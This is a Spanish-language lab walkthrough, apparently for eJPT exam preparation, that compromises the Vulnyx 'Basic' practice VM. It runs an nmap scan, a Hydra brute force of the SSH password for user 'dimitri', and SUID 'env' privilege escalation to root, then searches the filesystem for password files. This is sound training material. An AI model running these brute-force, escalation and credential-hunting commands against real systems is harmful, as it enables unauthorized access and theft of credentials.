  
----
- TAG: #Escalada-De-Privilegios #Linux #Binarios #SUID 
-----
## Escalada de Privilegios con Binarios SUID

En este apartado, repasaremos la escalada de privilegios utilizando binarios **SUID**. Realizaremos un ejercicio similar al anterior, pero con un binario y una máquina diferente.

### Requisitos

1. **Kali Linux** como máquina atacante.
2. **Vulnyx Basic** como máquina víctima - [Descargar aquí](https://vulnyx.com/#basic)
    - Importa la máquina en VirtualBox.
    - Configura el adaptador de red en modo puente.
    - Inicia la máquina.

### Pasos

1. Desde la máquina atacante (Kali Linux), utilizamos `arp-scan` para identificar la máquina víctima en la red local:

```bash
sudo arp-scan -I eth0 --localnet
```

2. Verifica la conectividad con la máquina víctima utilizando `ping` y determina el tipo de sistema:

```bash
ping -c 1 1.2.3.4
```

3. Realiza un escaneo con `nmap` para identificar posibles vulnerabilidades:

```bash
nmap -p -sS -sC -sV --open --min-rate=5000 -vvv -n -Pn 1.2.3.4 -oN escaneo
```

4. El escaneo revela que el puerto `80` está abierto. Accede al servicio web en ese puerto para investigar:

```bash
http://1.2.3.4
```

   En la página, vemos una plantilla de Apache, sin nada fuera de lo común.

5. El escaneo de `nmap` también muestra que los puertos `22`, `80` y `631` están abiertos. Al explorar el puerto `631`, encontramos un panel con varias opciones. Navegando a la sección `Printers`, encontramos un usuario llamado `dimitri`.

6. Dado que encontramos un usuario, podemos intentar un ataque de fuerza bruta para descubrir su contraseña. Como el puerto `22` (SSH) está abierto, utilizaremos **Hydra** para realizar el ataque:

```bash
hydra -l dimitri -P /usr/share/wordlists/rockyou.txt ssh://1.2.3.4
```

   **Nota:** Este proceso puede tardar, ya que la contraseña se encuentra en las últimas entradas del diccionario.

7. Una vez encontrada la contraseña:

```bash
dimitri:mememe
```

   Intenta iniciar sesión en el protocolo SSH:
   
```bash
ssh dimitri@1.2.3.4
```

   Introduce la contraseña cuando se te solicite:

```bash
mememe
```

8. Ahora, procederemos a escalar privilegios, como se explicó en la clase anterior, aprovechando los binarios **SUID**. Para ello, utilizamos el siguiente comando:

```bash
find / -perm -4000 2>/dev/null
```

   Esto listará todos los binarios SUID en el sistema. Si identificas uno que no debería estar ahí, como `env` en este caso, puedes usar `GTFObins` para confirmar si es común o no.

9. Utilizando `env`, ejecutamos los pasos sugeridos para obtener privilegios elevados:

 ```bash
sudo install -m =xs $(which env) .
env /bin/sh -p
```

   Si todo sale bien, deberías estar dentro como usuario `root`.

Ahora podríamos ejecutar el comando que queramos para ver más información sobre la máquina:
- Ver servicios corriendo:
```bash
ps aux
```

- Identificar puertos abiertos:
```bash
netstat -tulnp
```

- Ver conexiones activas:
```bash
ss -tuln
```

- Ver interfaces de red y direcciones IP
```bash
ip a
```

- **Buscar otros dispositivos en la red:** Si tienes acceso a herramientas como `nmap`, puedes escanear otros dispositivos en la red:
```bash
nmap -sP 192.168.1.0/24
```

- Buscar archivos que contengan la palabra 'password' u otras credenciales:
```bash
find / -name "*password*" 2>/dev/null
```
### Conclusión

Dominar esta técnica es crucial, ya que en el examen eJPT, al menos en una máquina, será necesario realizar una escalada de privilegios.

---
